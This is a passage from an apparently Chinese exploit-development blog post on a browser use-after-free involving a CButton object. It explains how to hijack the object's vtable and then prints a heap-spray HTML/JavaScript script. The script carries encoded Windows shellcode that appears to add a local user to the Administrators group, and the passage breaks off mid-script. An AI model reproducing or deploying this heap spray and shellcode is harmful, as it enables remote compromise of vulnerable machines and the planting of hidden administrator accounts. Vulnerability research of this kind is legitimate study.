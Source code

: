     alert(<span class="hljs-string">"end"</span>);</code></pre>
<p>经过试验得出以下结论 <br>
 e1.appendChild(document.createElement(‘button’)); 为内存初始申请 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629002326305?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
堆的释放和再次使用在<code>e2.innerHTML = "";</code>之后 和 <code>e2.appendChild(document.createElement('body'));</code>之后</br></img></br></br></p>
<h1 id="0x04-利用代码编写">0x04 利用代码编写</h1>
<p>我们回到之前的程序崩溃的地方，edi中的值无效，所以取堆的dword的时候是没有值的。借着在虚表中查找函数地址，在虚表偏移0xDC的地方存在函数跳转的地址。整个正向的函数执行过程很清楚，具体是我们怎么使用这些条件。利用方法如下：</p>
<ol>
<li>在堆中喷满shellcode代码</li>
<li>替换CButton对象的dword值，到自己指定函数虚表中查找（可以是0x0c0c0c0c or 0x1c1c1c1c）</li>
<li><p>在虚表的0xDC偏移处，填写指定的shellcode地址</p>
<p>最后直接执行就是了</p></li>
</ol>
<p>这里利用了一个关键技术，堆喷射技术，该技术是一种payload传递技术，它充分利用了javascript的特性。</p>
<h2 id="0x1-堆喷射">0x1 堆喷射</h2>
<p>为了控制虚表以及偏移处函数地址，我们在不知道精确地址的情况下可以采用堆喷射技术。</p>
<h3 id="无dep保护的情况">无DEP保护的情况</h3>
<pre class="prettyprint"><code class=" hljs dos">&lt;html&gt;
&lt;head&gt;&lt;/head&gt;
&lt;body&gt;
&lt;script&gt;
//堆喷射
 //Fix BSTR spec
 function alloc(bytes, mystr) {
 while (mystr.length&lt;bytes) mystr += mystr;
 return mystr.substr(<span class="hljs-number">0</span>, (bytes-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
 }

 block_size = <span class="hljs-number">0</span>x1000;
 Padding = '';
 NopSlide = '';

 var Shellcode =
unescape('<span class="hljs-envvar">%ud231%</span>u30b2<span class="hljs-envvar">%u8b64%</span>u8b12<span class="hljs-envvar">%u0c52%</span>u528b<span class="hljs-envvar">%u8b1c%</span>u0842<span class="hljs-envvar">%u728b%</span>u8b20<span class="hljs-envvar">%u8012%</span>u0c7e<span class="hljs-envvar">%u7533%</span>u89f2<span class="hljs-envvar">%u03c7%</span>u3c78<span class="hljs-envvar">%u578b%</span>u0178<span class="hljs-envvar">%u8bc2%</span>u207a<span class="hljs-envvar">%uc701%</span>ued31<span class="hljs-envvar">%u348b%</span>u01af<span class="hljs-envvar">%u45c6%</span>u3e81<span class="hljs-envvar">%u6957%</span>u456e<span class="hljs-envvar">%uf275%</span>u7a8b<span class="hljs-envvar">%u0124%</span>u66c7<span class="hljs-envvar">%u2c8b%</span>u8b6f<span class="hljs-envvar">%u1c7a%</span>uc701<span class="hljs-envvar">%u7c8b%</span>ufcaf<span class="hljs-envvar">%uc701%</span>u4b68<span class="hljs-envvar">%u6e33%</span>u6801<span class="hljs-envvar">%u4220%</span>u6f72<span class="hljs-envvar">%u2f68%</span>u4441<span class="hljs-envvar">%u6844%</span>u726f<span class="hljs-envvar">%u2073%</span>u7468<span class="hljs-envvar">%u6172%</span>u6874<span class="hljs-envvar">%u6e69%</span>u7369<span class="hljs-envvar">%u2068%</span>u6441<span class="hljs-envvar">%u686d%</span>u6f72<span class="hljs-envvar">%u7075%</span>u6368<span class="hljs-envvar">%u6c61%</span>u6867<span class="hljs-envvar">%u2074%</span>u6f6c<span class="hljs-envvar">%u2668%</span>u6e20<span class="hljs-envvar">%u6865%</span>u4444<span class="hljs-envvar">%u2620%</span>u6e68<span class="hljs-envvar">%u2f20%</span>u6841<span class="hljs-envvar">%u6f72%</span>u334b<span class="hljs-envvar">%u3368%</span>u206e<span class="hljs-envvar">%u6842%</span>u7242<span class="hljs-envvar">%u4b6f%</span>u7368<span class="hljs-envvar">%u7265%</span>u6820<span class="hljs-envvar">%u7465%</span>u7520<span class="hljs-envvar">%u2f68%</span>u2063<span class="hljs-envvar">%u686e%</span>u7865<span class="hljs-envvar">%u2065%</span>u6368<span class="hljs-envvar">%u646d%</span>u892e<span class="hljs-envvar">%ufee5%</span>u534d<span class="hljs-envvar">%uc031%</span>u5550%ud7ff');
